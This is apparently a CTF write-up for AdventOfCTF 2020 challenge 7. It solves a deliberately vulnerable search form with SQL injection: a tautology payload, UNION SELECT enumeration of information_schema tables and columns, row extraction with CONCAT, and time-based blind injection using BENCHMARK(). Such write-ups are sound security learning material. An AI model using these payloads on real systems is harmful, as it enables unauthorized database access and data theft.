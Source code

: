 +++
author = "Maik de Kruif"
title = "Challenge 7"
subtitle = "Challenge 7 - AdventOfCTF"
date = 2020-12-07T16:43:23+01:00
description = "A writeup for challenge 7 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/9fac6046540f4972c60f458b94aacb1d.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "sql-injection",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 700

## Description

Santa has a naughty list, I wonder who is on it? I hope it is not the blind mice!

Visit <https://07.adventofctf.com> to start the challenge.

## Finding the vulnerability

When opening the challenge website, we, yet again, see a search bar. Could this be another SQL Injection challenge? Let's try `'`. No result, bet the column name is also gone, so it probably do some SQL injection.

### SQL Injection

This time, no error message is shown. But the output is! (I'll get back to that later 😀.) First of all, let's get an idea of what the query to the database might be. I could be this:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

If this were the query, we can easily try to just get all records. To do this, we need to modify the `WHERE` statement to always be true. A way to do this is to add a `OR 1=1 -- ` to the query as `1` is always equal to `1`. But how do we do that? Well, is the backend doesn't properly create a query, we can escape the string inside the `WHERE` query and add our own code. An example input would be `' OR 1=1 -- `. If this would be inserted inside the query we would get this:

```sql
SELECT why FROM naughty WHERE why LIKE '%' OR 1=1 -- %';
```

If we input this (`' OR 1=1 -- `) in the search field, we get the flag! It is `NOVI{bl1nd_sql1_is_naughty}`

This flag can then be submitted for the [challenge](https://ctfd.adventofctf.com/challenges#7-8).

## Part 2

This, however, wasn't the solution the creator ([@credmp](https://twitter.com/credmp)) had intended. So he added another challenge. The description was this:

> Challenge 7 had a very unintended easy solution. This was my mistake and it did not surface during playtesting. In order to make it worth your while to solve the challenge in the intended way, please enter the username of the user on the naughty list to receive some additional (possibly very important) points

We can, however, solve this challenge in an unintended way as well 😀.

### Table name

Let's have a look at our guessed query again:

```sql
SELECT why FROM naughty WHERE why LIKE '%search text%';
```

This time, we probably want to get some other columns from the database. To do this, we have to know the table name first. A query to get all tables from a MySQL database is the following:

```sql
SELECT table_name FROM information_schema.tables --
```

If we adjust this query to be injectable in the original query, we get this:

```text
' UNION SELECT table_name FROM information_schema.tables --
```

Which, inside the query would look like the following:

```sql
SELECT why FROM naughty WHERE why LIKE '%' UNION SELECT table_name FROM information_schema.tables -- %';
```

Here we use a `UNION SELECT` to add rows from another table in to the results. The result of this input contains lots of rows, but if we strip the default ones, we get are left with one row:

| Who?    |
| ------- |
| naughty |

### Column names

Now that we know the table name, we can then get the columns from it with this query:

```sql
SELECT column_name FROM information_schema.columns WHERE table_name = "naughty"
```

If we convert this to an input, we get `' UNION SELECT column_name FROM information_schema.columns WHERE table_name = "naughty" -- `. This return the following rows:

| Who?     |
| -------- |
| id       |
| username |
| badthing |

### Table content

Knowing the table and column names, we can get all rows in the table. This output of the original query, however, only has one row. Because of this, we have to concatenate the results of the different columns together. A query for this would be:

```sql
SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty
```

Converted to an input we get `' UNION SELECT CONCAT(id, " | ", username, " | ", badthing) FROM naughty -- `, which, after submitting it, gives us one row:

| Who?                                        |
| ------------------------------------------- |
| 1 \| egische \| NOVI{bl1nd_sql1_is_naughty} |

As the username is the second column, it is "egische".

This flag can then be submitted [here](<https://ctfd.adventofctf.com/challenges#Challenge%207%20(additional)-26>).

## The actual intended solution

The intended way to solve this challenge was to use blind SQL injection. Which means you do not get a visual response. You might think "How is that possible without a result?". It's actually pretty easy but it takes some time. A way to do it is to make queries take a long time if the query returns a row, but not wait if the result has zero rows.

### Database name

For instance, let's say the query in the backend is the following:

```sql
SELECT why FROM naughty WHERE other_column = 'search text';
```

To get the database name, we could write a query that takes some time if a sub-query returns a result and doesn't if it doesn't. An example of such a query would be the following:

```sql
SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

This would run `BENCHMARK(9000000,MD5(1))` if the sub-query returns more than 1 row. The `BENCHMARK()` is used because it's a function that takes a while to run.

This query will have to be converted to an input first. This will become `' UNION SELECT CASE WHEN (SELECT DATABASE() LIKE "a%") THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

If we replace `a` with another letter we can find out the database name like this:

```text
a
b
...
t
ta
...
te
tea
...
tes
...
testdb
```

This will, of course, take some time.

### Other tables

To get the tables inside the database, the same method will have to be used. An example query for this would be the following:

```sql
SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END
```

Which will convert to `' UNION SELECT CASE WHEN COUNT((SELECT table_name FROM information_schema.tables WHERE table_name LIKE "a%" AND table_schema = "testdb" LIMIT 1))>0 THEN BENCHMARK(9000000,MD5(1)) ELSE 1 END -- `

By using this method, we can get the all database records but it will take a long time.

